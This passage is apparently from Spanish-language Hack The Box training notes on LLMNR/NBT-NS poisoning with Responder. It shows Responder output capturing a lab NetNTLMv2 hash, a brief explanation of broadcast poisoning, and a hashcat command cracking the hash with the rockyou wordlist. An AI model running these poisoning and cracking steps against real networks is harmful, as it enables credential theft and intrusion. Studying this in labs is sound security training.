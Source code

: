 ```shell-session
    Upstream Proxy             [OFF]                                               

[+] Poisoning Options:                                                             
    Analyze Mode               [OFF]                                               
    Force WPAD auth            [OFF]                                               
    Force Basic Auth           [OFF]                                               
    Force LM downgrade         [OFF]                                               
    Fingerprint hosts          [OFF]                                               

[+] Generic Options:                                                               
    Responder NIC              [tun0]                                              
    Responder IP               [10.10.14.198]                                      
    Challenge set              [random]                                            
    Don't Respond To Names     ['ISATAP']                                          

[+] Current Session Variables:                                                     
    Responder Machine Name     [WIN-2TY1Z1CIGXH]   
    Responder Domain Name      [HF2L.LOCAL]                                        
    Responder DCE-RPC Port     [48162] 

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```
Los equipos que se conectan son equipos de la misma red que buscan recursos con una dirección no válida. Cuando un equipo no encuentra un recurso que busca hace un "broadcast" para que alguien responda. Y es ahí cuando nosotros responderemos.w


Con HASHES interceptados, podemos desencriptarlos con:
```shell-session
Polika4RM@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc46296b0ccfc7a231d918ae1dae521:0101000000000000b09b51939ba6d40140c54ed46ad58e890000000002000e004e004f004d00410054004300480001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d0042003100320008003000300000000000000000000000003000004289286eda193b087e214f3e16e2be88fec5d9ff73197456c9a6861ff5b5d3330000000000000000:P@ssword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
```
